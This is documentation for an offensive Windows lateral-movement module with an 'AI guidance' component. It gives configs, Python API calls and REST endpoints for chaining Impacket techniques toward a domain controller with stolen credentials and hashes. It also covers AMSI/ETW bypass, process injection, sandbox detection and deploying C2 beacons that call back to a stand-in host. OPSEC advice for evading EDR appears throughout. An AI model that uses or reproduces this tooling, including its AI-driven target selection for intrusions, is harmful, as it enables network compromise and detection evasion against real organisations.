




# Lateral Movement Chain - Documentation

## Overview

The Lateral Movement Chain module provides automated, stealthy movement across Windows networks using Impacket and advanced evasion techniques. This documentation covers:

1. **YAML Configuration** - Define chains declaratively
2. **AI Guidance** - Intelligent "next best jump" suggestions
3. **Evasion Integration** - Reflective loader, process injection, AMSI bypass
4. **API Reference** - Endpoints and usage

---

## Architecture



---

## Chain Execution Flow



---

## Evasion Profiles



---

## YAML Configuration

### Basic Structure

```yaml
# configs/lateral_chain.yaml
name: "Domain Takeover Chain"
description: "Multi-hop lateral movement to domain controller"

strategy: "ai_guided"  # sequential | parallel | breadth_first | depth_first | ai_guided

targets:
  - name: "workstation01"
    ip: "192.168.1.100"
    hostname: "WS01.corp.local"
    os: "windows"
    priority: 3
    
  - name: "domain_controller"
    ip: "192.168.1.10"
    hostname: "DC01.corp.local"
    os: "windows"
    priority: 1  # High priority target

credentials:
  - id: "domain_admin"
    type: "password"
    username: "Administrator"
    domain: "CORP"
    password: "SecretPass123"
    
  - id: "ntlm_hash"
    type: "ntlm_hash"
    username: "svc_backup"
    domain: "CORP"
    nt_hash: "aad3b435b51404eeaad3b435b51404ee"

steps:
  - name: "Initial Access"
    targets: ["workstation01"]
    credential: "domain_admin"
    technique: "wmiexec"
    evasion_profile: "stealth"
    deploy_beacon: true
    
  - name: "DC Compromise"
    targets: ["domain_controller"]
    credential: "ntlm_hash"
    technique: "smbexec"
    evasion_profile: "paranoid"
    deploy_beacon: true

evasion:
  default_profile: "stealth"
  reflective_technique: "module_stomping"
  injection_technique: "thread_hijacking"
  target_process: "explorer.exe"

ai_guidance:
  enabled: true
  auto_select_targets: true
  defense_analysis: true

beacon:
  type: "python"
  c2_url: "https://c2.example.com:8443"
  callback_interval: 300
  jitter: 0.3
```

### Configuration Options

| Section | Field | Type | Description |
|---------|-------|------|-------------|
| `strategy` | - | string | Chain execution strategy |
| `targets` | `name` | string | Unique target identifier |
| `targets` | `ip` | string | Target IP address |
| `targets` | `priority` | int | 1=highest, 5=lowest |
| `credentials` | `type` | string | password, ntlm_hash, kerberos_ticket |
| `steps` | `technique` | string | wmiexec, smbexec, psexec, dcomexec, atexec |
| `evasion` | `default_profile` | string | none, default, stealth, paranoid |
| `beacon` | `type` | string | python, powershell, go |

---

## AI Guidance System

### How It Works



### AI Guide API

```python
from cybermodules.ai_lateral_guide import AILateralGuide, HostIntel

# Initialize guide
guide = AILateralGuide(scan_id=123)

# Add intelligence
guide.add_host_intel(HostIntel(
    hostname="DC01.corp.local",
    ip="192.168.1.10",
    os="Windows Server 2019",
    av_products=["Defender"],
    edr_products=["Crowdstrike"],
    is_dc=True,
    is_compromised=False
))

# Get next best jump
suggestion = guide.get_next_best_jump(
    current_host="WS01.corp.local",
    available_credentials=["domain_admin", "svc_backup"]
)

print(f"Target: {suggestion.target_host}")
print(f"Technique: {suggestion.suggested_technique}")
print(f"Confidence: {suggestion.confidence_score}")
print(f"Evasion: {suggestion.evasion_recommendations}")
```

### Suggestion Response

```json
{
  "target_host": "DC01.corp.local",
  "target_ip": "192.168.1.10",
  "suggested_technique": "smbexec",
  "suggested_credential": "svc_backup",
  "confidence_score": 0.85,
  "reasoning": "High-value target (DC), svc_backup has local admin, SMB port open",
  "evasion_recommendations": [
    "Use reflective loading due to Crowdstrike EDR",
    "Apply sleep obfuscation with high jitter",
    "Target RuntimeBroker.exe for injection"
  ],
  "risk_factors": [
    "EDR: Crowdstrike Falcon detected",
    "High audit logging expected on DC"
  ]
}
```

---

## Evasion Layer

### Evasion Config

```python
from cybermodules.lateral_evasion import (
    LateralEvasionLayer,
    EvasionConfig,
    EvasionProfile,
    get_evasion_config_for_profile
)

# Quick profile selection
config = get_evasion_config_for_profile("paranoid")

# Or manual configuration
config = EvasionConfig(
    profile=EvasionProfile.STEALTH,
    use_reflective_loader=True,
    reflective_technique="module_stomping",
    use_process_injection=True,
    injection_technique="thread_hijacking",
    target_process="explorer.exe",
    bypass_amsi=True,
    bypass_etw=True,
    use_sleep_obfuscation=True,
    sleep_technique="ekko",
    jitter_percent=0.3,
    detect_sandbox=True,
    detect_debugger=True
)

# Initialize evasion layer
evasion = LateralEvasionLayer(scan_id=123, config=config)
```

### Beacon Deployment

```python
# Prepare beacon with evasion
beacon_config = {
    'c2_url': 'https://c2.example.com:8443',
    'callback_interval': 300,
    'jitter': 0.3
}

payload = evasion.prepare_beacon_payload(
    beacon_type="python",
    beacon_config=beacon_config
)

# Check environment before injection
env_check = evasion.check_environment()
if env_check['safe_to_proceed']:
    # Inject beacon
    result = evasion.inject_beacon(
        beacon_payload=payload,
        target_process="explorer.exe"
    )
    print(f"Injected: PID {result['pid']}")
else:
    print(f"Unsafe: {env_check}")
```

### Injection Techniques

| Technique | Description | Stealth Level | Speed |
|-----------|-------------|---------------|-------|
| `apc_injection` | Queue User APC | Medium | Fast |
| `thread_hijacking` | Suspend/Modify/Resume thread | High | Medium |
| `early_bird` | Inject before main thread runs | Very High | Medium |
| `module_stomping` | Overwrite legitimate DLL | Very High | Slow |
| `transacted_hollowing` | NTFS transactions + hollowing | Highest | Slow |

### Sleep Techniques

| Technique | Description | EDR Bypass |
|-----------|-------------|------------|
| `ekko` | ROP-based sleep with encryption | High |
| `foliage` | APC-based sleep | Medium |
| `death_sleep` | Thread suspension | Very High |

---

## REST API Reference

### Execute Chain

```http
POST /lateral/chain/execute
Content-Type: application/json

{
  "config_path": "configs/lateral_chain.yaml",
  "dry_run": false
}
```

### Single Lateral Move

```http
POST /lateral/move
Content-Type: application/json

{
  "source_ip": "192.168.1.50",
  "target_ip": "192.168.1.100",
  "credential_id": "domain_admin",
  "technique": "wmiexec",
  "command": "whoami /all",
  "evasion_profile": "stealth",
  "deploy_beacon": false
}
```

### Get AI Suggestion

```http
POST /lateral/ai/suggest
Content-Type: application/json

{
  "current_host": "WS01.corp.local",
  "available_credentials": ["domain_admin", "svc_backup"],
  "goal": "domain_controller"
}
```

### Response

```json
{
  "success": true,
  "suggestion": {
    "target_host": "DC01.corp.local",
    "technique": "smbexec",
    "credential": "svc_backup",
    "confidence": 0.85,
    "evasion": "paranoid"
  }
}
```

---

## Integration Examples

### Full Chain with AI + Evasion

```python
from cybermodules.lateral_chain_config import LateralChainConfigLoader
from cybermodules.ai_lateral_guide import AILateralGuide
from cybermodules.lateral_evasion import LateralEvasionLayer, get_evasion_config_for_profile
from cybermodules.lateral_movement import execute_lateral_chain

# Load config
loader = LateralChainConfigLoader()
config = loader.load_from_file("configs/lateral_chain.yaml")

# Initialize AI guide
ai_guide = AILateralGuide(scan_id=config.scan_id)

# Initialize evasion
evasion_config = get_evasion_config_for_profile(config.evasion['default_profile'])
evasion = LateralEvasionLayer(config.scan_id, evasion_config)

# Execute chain
for step in config.steps:
    # Get AI suggestion
    suggestion = ai_guide.get_next_best_jump(
        current_host=current_position,
        available_credentials=[step.credential]
    )
    
    # Check environment
    if not evasion.check_environment()['safe_to_proceed']:
        print(f"Skipping {step.name}: unsafe environment")
        continue
    
    # Prepare command with evasion
    command = evasion.prepare_lateral_command(step.command)
    
    # Execute move
    result = execute_lateral_move(
        target=suggestion.target_host,
        technique=suggestion.suggested_technique,
        credential=step.credential,
        command=command
    )
    
    # Deploy beacon if configured
    if step.deploy_beacon and result.success:
        payload = evasion.prepare_beacon_payload("python", config.beacon)
        evasion.inject_beacon(payload)
    
    # Record for AI learning
    ai_guide.record_movement(
        from_host=current_position,
        to_host=suggestion.target_host,
        success=result.success,
        technique_used=suggestion.suggested_technique
    )
    
    current_position = suggestion.target_host
```

---

## Security Considerations

### OPSEC Best Practices

1. **Use appropriate evasion profile** for target environment
2. **Enable AI guidance** to avoid well-defended targets
3. **Check environment** before beacon deployment
4. **Use high jitter** (>30%) for callback intervals
5. **Rotate techniques** to avoid signature detection

### Logging

All operations are logged to the `intel_log` table:

```sql
SELECT * FROM intel_log 
WHERE tag = 'LATERAL_MOVEMENT' 
ORDER BY timestamp DESC;
```

---

## Troubleshooting

### Common Issues

| Issue | Cause | Solution |
|-------|-------|----------|
| "Access denied" | Invalid credentials | Verify cred type matches (password vs hash) |
| "RPC server unavailable" | Firewall blocking | Check SMB/WMI ports (135, 445) |
| "Beacon not calling back" | C2 unreachable | Verify network path to C2 |
| "Injection failed" | EDR blocking | Try different injection technique |
| "Sandbox detected" | Anti-analysis triggered | Wait or use different profile |

### Debug Mode

Enable debug logging:

```python
import logging
logging.getLogger('cybermodules.lateral_movement').setLevel(logging.DEBUG)
logging.getLogger('cybermodules.lateral_evasion').setLevel(logging.DEBUG)
```

---

## File Structure

```
cybermodules/
├── lateral_movement.py       # Core lateral movement engine
├── lateral_chain_config.py   # YAML config loader
├── ai_lateral_guide.py       # AI guidance system
└── lateral_evasion.py        # Evasion layer

configs/
└── lateral_chain_example.yaml  # Example configuration

docs/
└── lateral-movement.md       # This documentation

templates/
└── lateral.html              # Web UI template
```

---

## Version History

| Version | Date | Changes |
|---------|------|---------|
| 1.0.0 | 2024-01 | Initial lateral movement with Impacket |
| 1.1.0 | 2024-01 | Added YAML config support |
| 1.2.0 | 2024-01 | Added AI guidance integration |
| 1.3.0 | 2024-01 | Added evasion layer with reflective loader |
